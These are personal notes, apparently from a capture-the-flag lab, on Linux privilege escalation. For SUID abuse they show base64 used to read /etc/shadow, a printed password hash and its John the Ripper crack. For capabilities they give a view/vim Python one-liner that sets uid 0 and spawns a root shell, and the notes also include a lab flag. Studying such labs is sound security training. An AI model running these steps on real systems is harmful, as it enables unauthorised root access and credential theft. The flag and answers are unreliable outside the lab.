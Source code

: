 [=]  Task 7 - PrivEsc via SUID  [=]

## Find SUID Program that can be used
>. find / -type f -perm -04000 -ls 2>/dev/null

## Choose program to exploit
-- Example : base64 (/usr/bin/bash64)

## Exploit
-- Find in GTFOBins
>. LFILE={file_to_read}
   -- Misal ingin cek user di /etc/shadow
   -- LFILE=/etc/shadow
>. /usr/bin/base64 "$LFILE" | base64 --decode
   -- SUCCESS :)

## Hash user2 pwd
-- pwd = $6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/
-- save pwd ke file
   >> echo "$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/" > user2.txt

>> john --wordlist=/usr/share/wordlists/rockyou.txt  user2.txt
>> john user2.txt --show
   -- pwd = Password1

## Find Flag
-- Permission denied to "cat" the flag3
-- Use Same exploit
   >. LFILE=/home/ubuntu/flag3.txt
   >. /usr/bin/base64 "$LFILE" | base64 --decode
      -- THM-3847834

[=]  Task 8 - PrivEsc via Capabilities  [=]

## Find Capability program that can be used
>. getcap -r / 2>/dev/null

## Choose program to exploit
-- Example : view (/home/ubuntu/view)

## Exploit
-- Find in GTFOBins
>. /home/ubuntu/view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
   -- SUCCESS :)
